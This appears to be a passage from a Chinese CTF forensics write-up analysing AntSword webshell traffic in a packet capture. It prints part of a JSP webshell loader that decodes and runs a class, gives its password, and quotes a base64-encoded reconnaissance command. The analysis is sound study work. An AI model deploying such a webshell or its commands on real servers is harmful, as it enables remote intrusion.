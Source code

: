 ```jsp
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

是jsp的webshell，密码为 `n3wst4r`

蚁剑请求流量的分析需要删掉首部前两个字符



```
AvY2QgIi91c3IvbG9jYWwvdG9tY2F0IjtlbnY7ZWNobyBmNWNkOTtwd2Q7ZWNobyAwYTI1ZmJjMWM1
```

tcp.stream eq 39可以看到

[![image-20231106212246684](assets/3014109-20231106224658028-1799363622.png)](https://img2023.cnblogs.com/blog/3014109/202311/3014109-20231106224658028-1799363622.png)

在env中可以得到Java版本

[![image-20231106212410580](assets/3014109-20231106224658309-586105533.png)](https://img2023.cnblogs.com/blog/3014109/202311/3014109-20231106224658309-586105533.png)